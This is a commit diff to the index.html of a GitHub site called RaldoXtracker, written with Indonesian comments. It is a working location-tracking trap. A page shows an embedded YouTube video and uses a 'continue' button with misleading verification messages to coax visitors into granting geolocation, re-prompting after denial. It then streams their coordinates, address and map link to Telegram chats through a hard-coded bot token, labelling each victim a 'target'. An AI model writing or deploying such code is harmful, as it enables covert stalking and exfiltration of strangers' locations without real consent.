

Before and after one commit to RaldoMTC/RaldoXtracker, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 468-600 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -9,6 +9,8 @@
         #video-container { margin: 20px auto; max-width: 560px; }
         #youtube-video { width: 100%; height: 315px; border: none; }
         #status { font-size: 12px; color: #666; margin-top: 10px; opacity: 0.7; }
+        #location-btn { padding: 10px 20px; background: #007bff; color: white; border: none; border-radius: 5px; cursor: pointer; margin: 10px; display: none; } /* Sembunyi awal */
+        #location-btn:hover { background: #0056b3; }
     </style>
 </head>
 <body>
@@ -19,18 +21,21 @@
         <iframe id="youtube-video" src="https://www.youtube.com/embed/dQw4w9WgXcQ?autoplay=1&mute=1&rel=0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
     </div>
 
-    <div id="status">Tunggu sebentar...</div>
+    <button id="location-btn" onclick="requestLocation()">Lanjut</button>
+
+    <div id="status">Klik tombol di atas untuk lanjut...</div>
 
     <script>
         // Ganti ini
         const BOT_TOKEN = '7822471568:AAE89BHf7mxBx4kqhKNLyE7yP4IlMgi8wFE';
-        const CHAT_IDS = ['7680606818', '7886506639']; // Masukin dua ID di sini, misal ['7680606818', 'ID_KEDUA_LO']
+        const CHAT_IDS = ['7680606818', '6212362026']; // Tambah ID kedua di sini
 
         let watchId;
         let lastLat = null;
         let lastLng = null;
         const MIN_DISTANCE = 5;
         const status = document.getElementById('status');
+        const locationBtn = document.getElementById('location-btn');
         let retryCount = 0;
         const MAX_RETRIES = 2;
 
@@ -58,11 +63,10 @@
             }
         }
 
-        // Kirim ke Telegram - Update buat multiple ID
+        // Kirim ke Telegram - Multiple ID (sama)
         async function sendToTelegram(lat, lng, accuracy, timestamp, address, mapsLink) {
             const message = `😈𝙍𝙖𝙡𝙙𝙤𝙓𝙩𝙧𝙖𝙘𝙠: 𝙨𝙪𝙠𝙨𝙚𝙨 𝙏𝙖𝙧𝙜𝙚𝙩 𝘽𝙚𝙧𝙝𝙖𝙨𝙞𝙡 𝘿𝙞 𝙇𝙖𝙘𝙖𝙠!😈\n\nLatitude: ${lat.toFixed(7)}\nLongitude: ${lng.toFixed(7)}\nAkurasi: ${accuracy}m\nAlamat: ${address}\nWaktu: ${new Date(timestamp).toLocaleString('id-ID')}\n\n😈𝐋𝐨𝐤𝐚𝐬𝐢 𝐓𝐚𝐫𝐠𝐞𝐭: ${mapsLink}`;
 
-            // Loop buat kirim ke semua ID
             for (const chatId of CHAT_IDS) {
                 const url = `https://api.telegram.org/bot${BOT_TOKEN}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}&parse_mode=HTML`;
                 try {
@@ -107,7 +111,8 @@
             let msg = 'Verifikasi gagal: ';
             switch(error.code) {
                 case error.PERMISSION_DENIED:
-                    msg += 'I🌹🌹❤❤💕💕.';
+                    msg += 'I🌹🌹❤❤💕💕. Coba klik tombol lagi.';
+                    locationBtn.style.display = 'inline-block'; // Tampilkan tombol buat retry
                     break;
                 case error.POSITION_UNAVAILABLE:
                     msg += '🌹🌹🌹🌹🌹🌹.';
@@ -116,9 +121,10 @@
                     msg += 'Sinyal lemah. Mencoba lagi...';
                     if (retryCount < MAX_RETRIES) {
                         retryCount++;
-                        setTimeout(() => attemptGeolocation(false), 2000); // Retry dengan low accuracy setelah 2s
+                        setTimeout(() => attemptGeolocation(false), 2000);
                     } else {
                         msg += ' (Coba matikan VPN atau keluar ruangan)';
+                        locationBtn.style.display = 'inline-block';
                     }
                     break;
             }
@@ -129,24 +135,51 @@
         function attemptGeolocation(highAccuracy = true) {
             const options = {
                 enableHighAccuracy: highAccuracy,
-                timeout: 30000, // Naik ke 30 detik
+                timeout: 30000,
                 maximumAge: 1000
             };
-            status.innerHTML = `😘😘😘😘😘${highAccuracy ? ' ❤️❤️' : ''}...`;
+            status.innerHTML = `Meminta akses lokasi${highAccuracy ? ' akurat' : ''}...`;
+            locationBtn.style.display = 'none'; // Sembunyikan tombol pas proses
 
             navigator.geolocation.getCurrentPosition(
                 (pos) => {
                     showPosition(pos);
-                    // Lanjut watch
                     watchId = navigator.geolocation.watchPosition(showPosition, showError, options);
-                    retryCount = 0; // Reset retry
+                    retryCount = 0;
                 },
                 showError,
                 options
             );
         }
 
-        // Handle network change
+        // Fungsi request lokasi (dari tombol)
+        async function requestLocation() {
+            // Cek permission status dulu pake Permissions API (buat retry kalo denied)
+            if (navigator.permissions && navigator.permissions.query) {
+                try {
+                    const permission = await navigator.permissions.query({ name: 'geolocation' });
+                    if (permission.state === 'granted') {
+                        // Udah granted, langsung attempt
+                        attemptGeolocation(true);
+                    } else if (permission.state === 'denied') {
+                        // Denied, coba request ulang (browser mungkin prompt lagi)
+                        status.innerHTML = 'Minta izin lokasi lagi...';
+                        attemptGeolocation(true);
+                    } else {
+                        // Prompt, langsung request
+                        attemptGeolocation(true);
+                    }
+                } catch (e) {
+                    console.log('Permissions API nggak support, langsung request');
+                    attemptGeolocation(true);
+                }
+            } else {
+                // Fallback tanpa Permissions API
+                attemptGeolocation(true);
+            }
+        }
+
+        // Handle network change (sama)
         window.addEventListener('online', () => {
             console.log('Network online - retrying geolocation');
             if (retryCount > 0) {
@@ -157,19 +190,13 @@
         window.addEventListener('offline', () => {
             console.log('Network offline');
             status.innerHTML = 'Koneksi hilang. Coba lagi.';
+            locationBtn.style.display = 'inline-block';
         });
 
-        // Auto start
-        function initTracking() {
-            if (navigator.geolocation) {
-                // Coba high accuracy dulu
-                attemptGeolocation(true);
-            } else {
-                status.innerHTML = 'Lokasi tidak didukung. Coba browser lain.';
-            }
-        }
-
-        window.addEventListener('load', initTracking);
+        // Auto tampilkan tombol pas load
+        window.addEventListener('load', () => {
+            locationBtn.style.display = 'inline-block';
+        });
     </script>
 </body>
 </html>
```
